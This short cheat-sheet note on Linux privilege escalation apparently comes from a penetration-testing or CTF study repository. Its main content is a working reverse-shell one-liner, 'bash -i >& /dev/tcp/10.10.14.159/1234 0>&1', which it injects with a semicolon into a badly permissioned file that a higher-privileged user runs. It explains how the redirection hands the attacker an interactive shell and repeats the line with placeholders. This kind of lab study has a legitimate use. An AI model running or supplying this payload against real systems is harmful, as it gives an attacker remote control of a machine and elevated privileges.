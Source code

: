 # Privilege escalation

privilege escalation is vast topic in itself, however technique can be simple as:

1. Any other user in the box?
2. Any file with higher permission

`echo "  ;/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.159/1234 0>&1'  #" >> badlypermissionedfile`

Explanation: `bash -i >& /dev/tcp/<IP>/<port> 0>&1`

This snippet runs a new interactive instance of bash \(bash -i\), on a TCP connection to the specified port on the specified host which is created for the duration of the bash process. Standard output and standard error are sent through this connection \(`>& /dev/tcp/HOST/PORT`\), and standard input is read through this connection \(`0>&1` or `0<&1` both works\).

`echo "  ;/bin/bash -c 'bash -i >& /dev/tcp/<IP_ADDRESS>/<1234> 0>&1'  #" >> filename`

